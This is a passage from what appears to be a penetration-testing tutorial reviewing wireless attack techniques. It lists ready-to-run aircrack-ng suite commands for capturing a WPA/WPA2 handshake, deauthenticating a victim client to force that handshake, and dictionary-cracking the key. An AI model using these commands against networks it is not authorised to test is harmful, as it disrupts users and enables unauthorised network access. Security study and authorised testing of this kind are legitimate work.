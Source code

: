 When enough IVs are captured, the shared key can be cracked:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image032.png)<br><br>


### Attacking WPA and WPA2

For attacks against WPA/WPA2 networks, the encryption is too strong to use statistics and requires using a dictionary attack to identify the key once a 4 way handshake is captured.

Use the following steps to try this:

|Step|Command|
|-|-|
|Capture traffic|`airodump-ng -c 6 --bssid $AP -w wpa wlan0mon`|
|Deauth client to force handshake| `aireplay-ng --deauth 1 -a $AP -c $VIC wlan0mon`|
|Perform dictionary attack|`aircrack-ng -w wpa-01.cap`|

<br>

Begin capturing traffic:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image033.png)<br><br>

Deauthenticating the client forces it to perform the handshake again:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image034.png)<br><br>

Make sure the WPA Shared Key is in your password list:

